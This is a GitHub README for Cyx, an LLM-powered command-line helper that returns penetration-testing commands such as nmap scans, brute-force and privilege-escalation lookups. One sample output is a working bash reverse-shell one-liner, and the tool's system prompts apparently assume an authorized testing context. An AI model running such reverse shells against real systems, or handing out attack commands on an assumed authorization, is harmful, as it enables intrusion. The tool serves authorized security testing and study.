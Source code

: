# Cyx

> Command-first cybersecurity companion for penetration testers and security researchers

Cyx is an LLM-powered terminal tool that delivers instant, executable security commands. Supports Perplexity (web search) and Groq (fast inference).

## Features

- **Command-first output** - executable commands before explanations
- **Learn mode** - detailed educational breakdowns with sources
- **Source attribution** - tracks provider, model, and web search status

## Quick Start

```bash
# Clone and build
git clone https://github.com/neur0map/cyx.git
cd cyx
cargo build --release

# Setup (first time - interactive wizard)
./target/release/cyx setup

# Use
cyx "nmap stealth scan"
cyx "sql injection bypass waf"
cyx --learn "linux privilege escalation"
```

## Installation

### Prerequisites

- Rust 1.70 or higher
- API key from [Perplexity](https://www.perplexity.ai/settings/api) or [Groq](https://console.groq.com)

### Build from Source

```bash
git clone https://github.com/neur0map/cyx.git
cd cyx
cargo build --release

# Optional: install to PATH
cargo install --path .
```

### Initial Configuration

Run the interactive setup wizard:

```bash
cyx setup
```

This creates `~/.config/cyx/config.toml` with your API key (stored with 600 permissions).

## Usage

### One-Shot Queries

```bash
# Quick command lookup
cyx "reverse shell one liner"
cyx "hydra ssh brute force"

# Learn mode with detailed explanations
cyx --learn "metasploit meterpreter"
cyx -l "nmap service detection"
```


### CLI Options

```
-l, --learn          Educational mode with detailed breakdowns
-q, --quiet          Minimal output (response only, no formatting)
-v, --verbose        Detailed progress information
    --no-tty         Disable TTY features for scripting
```

### Configuration

```bash
cyx config show                           # View current config
cyx config set provider perplexity        # Change provider
cyx setup                                 # Re-run setup wizard
```

Config file: `~/.config/cyx/config.toml`

## Output Examples

### Normal Mode

```
╭─── RESPONSE ──────────────────────────────────────────────
│ ```bash
│ nmap -sS <target>
│ ```
│ TCP SYN stealth scan - doesn't complete handshake. Requires root.
╰──────────────────────────────────────────────────────────

[*] SOURCES
───────────────────────────────────────
Provider: Perplexity (sonar-pro)
Search: Yes (performed web search)

Links:
  - nmap documentation: https://nmap.org/book/synscan.html
  - TCP protocol (RFC 793): https://www.ietf.org/rfc/rfc793.txt
```

### Learn Mode

Detailed breakdowns with flag explanations, how it works, advantages/disadvantages, alternatives, and cited sources.

```bash
cyx --learn "nmap stealth scan"
```

### Quiet Mode

```bash
$ cyx -q "reverse shell bash"
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

## Technical Details

### Security

- API keys stored with 600 permissions in `~/.config/cyx/config.toml`
- Read-only operation - provides commands but never executes them
- Timeout protection - all API calls timeout after 120 seconds
- Local-first - all sensitive data remains on your machine

### System Prompts

**Normal mode**: Command-first responses with minimal explanation, assumes authorized testing context, prioritizes executable commands over theory.

**Learn mode**: Educational responses with detailed flag breakdowns, protocol explanations, cited sources, advantages/disadvantages, and alternatives.

## Disclaimer

**For authorized security testing, educational purposes, and defensive research only.**

This tool is designed for:
- Professional penetration testers with written authorization
- Security students in controlled lab environments
- Capture The Flag (CTF) competitions
- Defensive security and threat analysis

Always obtain explicit permission before testing systems you don't own.

## License

MIT License - See [LICENSE](LICENSE) for details.
